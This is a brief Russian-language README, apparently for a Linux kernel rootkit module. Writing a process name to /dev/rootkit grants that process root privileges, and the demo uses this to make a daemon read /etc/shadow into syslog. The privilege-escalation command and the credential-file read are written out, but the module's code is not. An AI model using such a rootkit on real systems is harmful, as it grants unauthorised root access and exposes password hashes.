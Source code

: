 ##Повышает права процесса для Linux

Модуль при загрузке создает файл устройства "/dev/rootkit"

Запускаем демон "./mydaemon -c start"

Заставляем читать демон системный файл "/etc/shadow". 

"./mydaemon -c read"

Прав не хватает и он плачет в syslog об этом.

Error file open: Permission denied

"Повышаем" права демона

echo "mydaemon" > /dev/rootkit

Просим повторить демона процедуру чтения. Успех.

В syslog появилось содержимое файла "/etc/shadow"

=======
